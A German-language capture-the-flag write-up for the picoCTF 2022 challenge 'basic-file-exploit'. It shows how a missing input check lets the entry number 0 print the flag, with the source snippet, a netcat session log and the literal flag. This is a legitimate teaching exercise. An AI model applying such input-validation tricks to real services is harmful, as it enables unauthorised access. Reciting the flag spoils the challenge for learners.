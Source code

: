 # basic-file-exploit
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!
Connect to the program with netcat:
```
$ nc saturn.picoctf.net 49698
```

## Loesung
Es ist moeglich in dem Programm ein Stack Smashing auszuloesen, allerdings ist das hier wohl nicht das Ziel. Betrachtet man den C-Code, findet man in der Funktion _data_read()_ die folgende IF-Bedingung:
```c
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

Gibt man dem Programm also an der entsprechenden Stelle eine '0' als eingabe erhaelt man die Flag:
```
 root  …  writeups  picoCTF-2022  basic-file-exploit  nc saturn.picoctf.net 49698
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
data
data
Please enter the length of your data:
1
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
 root  …  writeups  picoCTF-2022  basic-file-exploit  
```


